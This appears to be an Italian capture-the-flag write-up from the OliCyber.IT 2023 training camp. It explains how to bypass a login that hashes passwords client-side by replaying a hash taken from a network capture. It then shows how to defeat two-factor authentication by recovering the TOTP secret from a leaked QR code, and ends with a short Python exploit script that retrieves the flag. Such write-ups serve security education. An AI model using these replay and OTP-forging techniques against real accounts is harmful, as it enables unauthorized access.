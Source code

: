 # OliCyber.IT 2023 - Simulazione training camp 1

## [network] Secure Co. Login (8 risoluzioni)

La challenge mette a disposizione un sito web in cui bisogna riuscire a fare il login, e una cattura di rete del processo di login in corso.

### Soluzione

La prima "sicurezza" del sito è l'hash della password client-side anzichè server-side. Per bypassarla basta evitare di usare il frontend e mandare direttamente l'hash.

Il sito web tuttavia implementa una two-factor authentication usando un codice OTP.

Il secret però viene mandato all'utente quando fa il login sottoforma di codice QR (interpretabile dall'app Google authenticator per esempio).

Analizzando quindi il pcap si può estrarre il codice QR dall'ultima richiesta, visualizzarlo, e generare un codice OTP valido.

### Exploit

```python
import os
import requests
import logging
import pyotp
logging.disable()

URL = os.environ.get("URL", "http://securelogin.challs.olicyber.it/")

s = requests.Session()

s.post(URL+"/login", json={"username":"admin", "password":"5d08a95e13ee227fb04dfb425bcc690176a9680e1bc8192b7d55db57f3d9a38b"})
totp = pyotp.TOTP('MNRWGNLUOJWDOZD2')
code=totp.now()
s.get(URL+"/2fa", params={"code":code})

flag = s.get(URL+"/user-info").json()["flag"]

print(flag)

```
